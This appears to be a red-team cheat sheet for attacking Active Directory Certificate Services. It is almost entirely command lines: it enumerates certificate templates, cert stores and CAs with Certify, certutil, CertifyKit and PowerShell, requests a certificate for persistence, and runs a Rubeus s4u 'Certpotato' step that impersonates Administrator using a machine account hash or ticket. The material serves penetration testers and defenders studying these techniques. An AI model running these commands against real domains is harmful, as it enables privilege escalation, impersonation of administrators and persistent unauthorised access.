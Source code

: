 Enumerate templates:

```
C:\Tools\Certify.exe find
certutil -v -dstemplate 
```

Enumerate templates allow client authentication:

```
Certify.exe find /clientauth 
```

Enumerate CertStore - certutil

```
certutil -store My
certutil -user -store My
```

Enumerate CertStore - CertifyKit

```
C:\Users\Public\CertifyKit.exe list
```

Enumerate CertStore - Powershell

```
Get-ChildItem Cert:\CurrentUser\ -Recurse
Get-ChildItem Cert:\LocalMachine\ -Recurse
Get-ChildItem Cert:\CurrentUser\My -Recurse
Get-ChildItem Cert:\LocalMachine\My -Recurse
```

Enumerate CAs:

```
certutil -CAInfo
```

Enumerate Trusted Root Certification Authorities Root store:

```
certutil -store -enterprise Root
```

<br>

### <a name="12"></a>1.2 &nbsp;&nbsp; Request (PERSIST1)

```
C:\Tools\Certify.exe find
C:\Tools\Certify.exe request /ca:CA_NAME /user:USER /domain:DOMAIN /template:TEMPLATE_NAME
```

<br>

### <a name="13"></a>1.3 &nbsp;&nbsp; Certpotato

```
C:\Tools\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:cifs|http|.../MACHINE.DOMAIN /dc:DC.DOMAIN /user:COMPUTER_NAME$ /rc4:HASH /ptt
C:\Tools\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:cifs|http|.../MACHINE.DOMAIN /dc:DC.DOMAIN /user:COMPUTER_NAME$ /ticket:TICKET.kirbi /ptt
```
